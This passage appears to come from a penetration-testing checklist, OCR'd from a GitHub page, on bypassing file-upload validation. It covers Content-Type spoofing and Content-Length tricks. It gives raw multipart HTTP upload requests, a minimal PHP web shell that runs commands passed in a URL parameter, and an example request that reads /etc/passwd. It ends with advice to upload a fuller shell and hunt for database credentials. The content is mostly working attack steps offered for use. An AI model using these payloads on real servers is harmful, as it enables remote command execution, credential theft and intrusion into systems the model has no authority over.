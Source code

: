 ```markdown
	 check so try other bypass.
```

## Test Case - 3: Content-type validation

```markdown
1. Find the upload request and send it to the repeater
2. Upload file.php and change the Content-type: application/x-php or Content-Type : application/octet-stream to Content-type: image/png or Content-type: image/gif or Content-type: image/jpg

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php

3. If successful then exploit further, or there might be other type of validation or 
	 check so try other bypass.
```

## Test Case - 4: Content-Length validation

```markdown
1. Find the upload request and send it to the repeater
2. Try all three above bypass first, if they doesn't works then see if file size is been
	 checked. Try all four of this case in combo for more success rate.

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php

[...]

3. Try small file payload like 

<?=`$_GET[x]`?>   
<?=‘ls’;   Note : <? work for “short_open_tag=On” in php.ini ( Default=On )

4. Finally the request should look like this. if this worked then try to access this file
	 For Example: http://example.com/compromised_file.php?x=cat%20%2Fetc%2Fpasswd 

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php

<?=`$_GET[x]`?>

5. Dont stop here, upload better shell and try to see if you can find something more 
	 critical like DB_.
```
